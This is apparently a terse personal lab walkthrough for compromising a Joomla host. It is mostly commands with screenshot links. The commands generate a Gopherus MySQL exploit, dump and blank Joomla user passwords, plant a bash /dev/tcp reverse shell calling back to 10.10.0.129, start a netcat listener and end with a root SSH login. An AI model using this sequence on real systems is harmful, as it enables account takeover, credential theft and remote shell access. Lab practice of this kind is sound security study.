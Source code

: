 ```java
gopherus --exploit mysql
goblin 
SHOW databases;
```

![[Pasted image 20231114103219.png]]

![[Pasted image 20231114103511.png]]
```java
USE joomla; show databases
```
![[Pasted image 20231114103701.png]]
![[Pasted image 20231114103723.png]]
```java
goblin USE joomla; describe joomla_users;
```
![[Pasted image 20231114103916.png]]
![[Pasted image 20231114103858.png]]
```java
USE joomla; select name,enamil,password from joomla_users;
```
![[Pasted image 20231114104102.png]]

![[Pasted image 20231114104121.png]]
```java
USE joomla; update joomla_users set password='' where username='site_admin'
```
![[Pasted image 20231114104949.png]]
![[Pasted image 20231114105029.png]]
![[Pasted image 20231114105207.png]]
```java
system("bash -c 'bash -i >& /dev/tcp/10.10.0.129/111 0>&1'");
```
![[Pasted image 20231114110657.png]]
```java
http://10.10.0.128/joomla/index.php/<>
```
![[Pasted image 20231114114610.png]]
```java
sudo nc -nlvp 443
ssh root
```
![[Pasted image 20231114114634.png]]

![[Pasted image 20231114122045.png]]
